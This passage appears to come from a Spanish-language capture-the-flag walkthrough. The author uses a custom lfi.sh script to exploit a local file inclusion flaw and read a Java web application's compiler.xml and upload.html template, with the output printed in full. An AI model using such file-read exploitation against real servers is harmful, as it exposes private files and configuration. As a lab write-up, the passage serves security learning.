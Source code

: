 Si enumeramos encontramos esto

```bash
❯ ./lfi.sh -f /var/www/WebApp/.idea/compiler.xml

[+] Este es el contenido del archivo /var/www/WebApp/.idea/compiler.xml:

<?xml version="1.0" encoding="UTF-8"?>
<project version="4">
  <component name="CompilerConfiguration">
    <annotationProcessing>
      <profile name="Maven default annotation processors profile" enabled="true">
        <sourceOutputDir name="target/generated-sources/annotations" />
        <sourceTestOutputDir name="target/generated-test-sources/test-annotations" />
        <outputRelativeToContentRoot value="true" />
        <module name="WebApp" />
      </profile>
    </annotationProcessing>
  </component>
  <component name="JavacSettings">
    <option name="ADDITIONAL_OPTIONS_OVERRIDE">
      <module name="WebApp" options="-parameters" />
    </option>
  </component>
</project>#       
```

Aqui vemos como funciona por detras la parte del `LFI`

```bash
❯ ./lfi.sh -f /var/www/WebApp/target/classes/templates/upload.html

[+] Este es el contenido del archivo /var/www/WebApp/target/classes/templates/upload.html:

<!DOCTYPE html>
<html lang="en" xmlns:th="http://www.thymeleaf.org">
<head>
    <meta charset="UTF-8">
    <title>Upload</title>
    <link rel="stylesheet" type="text/css" href="/webjars/bootstrap/css/bootstrap.min.css" />
</head>
<body>
<header id="header">
    <nav id="nav-bar" class="navbar navbar-expand-lg navbar-dark bg-dark">
        <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
            <span class="navbar-toggler-icon"></span>
        </button>
        <div class="collapse navbar-collapse" id="navbarNav">
            <ul class="navbar-nav">
                <li class="nav-item active">
                    <a class="nav-link" th:href="@{/}">Home</span></a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="#features">Features</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="#how-it-works">How it Works</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" th:href="@{/blogs}">Blogs</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="#pricing">Pricing</a>
                </li>
```